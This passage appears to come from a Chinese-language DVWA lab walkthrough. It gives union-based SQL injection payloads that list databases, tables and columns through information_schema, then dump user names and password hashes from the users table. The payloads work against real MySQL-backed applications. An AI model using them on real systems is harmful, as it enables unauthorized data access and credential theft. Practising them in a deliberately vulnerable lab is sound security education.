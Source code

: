 ![](http://qn.huat.xyz/content/20200512203719.png)

> 这里就出现了权限的问题  ，该用户 只有这个权限！



5、查看所有数据库的所有数据表

```sql
' union SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.tables -- 
```

![](http://qn.huat.xyz/content/20200512204028.png)



6、查看当前数据库的所有数据表

```sql
' union SELECT TABLE_NAME,2 FROM information_schema.tables WHERE TABLE_SCHEMA = 'dvwa_huat_xyz' #
# 或者 
' union SELECT TABLE_NAME,2 FROM information_schema.tables WHERE TABLE_SCHEMA = database() #
```

![](http://qn.huat.xyz/content/20200512204849.png)



7、查询 users 表的字段

```sql
' union SELECT COLUMN_NAME,2 FROM information_schema.columns WHERE TABLE_SCHEMA = database() AND TABLE_NAME= 'users' #
```

![](http://qn.huat.xyz/content/20200512205421.png)



8、查询 users表中 user 和password 的所有记录

```sql
' union select user,password from users -- 
```

![](http://qn.huat.xyz/content/20200512205848.png)

```sql
# 使用函数改变显示方式
' union select concat_ws('：',user,password),2 from users -- 
```

![](http://qn.huat.xyz/content/20200512210105.png)



>  如果你比较贪心想要这个表中所有的数据可以，使用concat()函数，将所有的 字段名【上面已经拿到了】放置在函数中，别忘了 字段是否符合哦

来做一次贪心的人吧！

```sql
' union select concat_ws('-',user_id,first_name,last_name,user,password),2 from users --
```
